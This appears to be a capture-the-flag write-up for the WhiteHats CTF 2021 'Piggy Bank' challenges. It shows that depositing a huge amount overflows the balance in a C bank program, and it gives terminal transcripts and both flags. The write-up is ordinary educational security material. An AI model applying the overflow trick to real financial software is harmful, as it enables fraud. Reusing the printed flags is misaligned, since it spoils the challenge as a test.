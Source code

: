 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Piggy_Bank / Piggy_Bank_Revenge
category: pwn
flag: WH2021{N0w_the_p1ggy_is_wORS3_than_empty_:'(} / WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
points: 287 / 539
solves: 64 / 51
---
```


Piggy bank

> Time to save your angbao money! $\_$

Piggy bank revenge:

> Seems there was an issue with the previous implementation. I've introduced a HOTFIX that should prevent any further vulnerabilities. I've achieved an unhackable piggy bank now for sure.

My solution for both was purely by fuzzing, when connecting to the netcat server provided, we see a simple bank menu:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

Immediately one thinks 'how can someone implementing this mess up'. The easiest way is to allow depositing negative amounts of money, and in C negative values are stored as 'a very big integer', so let's try to input big integers. This immediately allows us to buy the flag in both challenges.

Piggy bank:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $200000000

Piggy Bank value: $-14747027.-80
Wallet value:     $14748464.80

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 3

WH2021{N0w_the_p1ggy_is_wORS3_than_empty_:'(}
```

Piggy bank revenge:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $200000000

Piggy Bank value: $-14747027.-80
Wallet value:     $14748464.80

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 3

WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
```
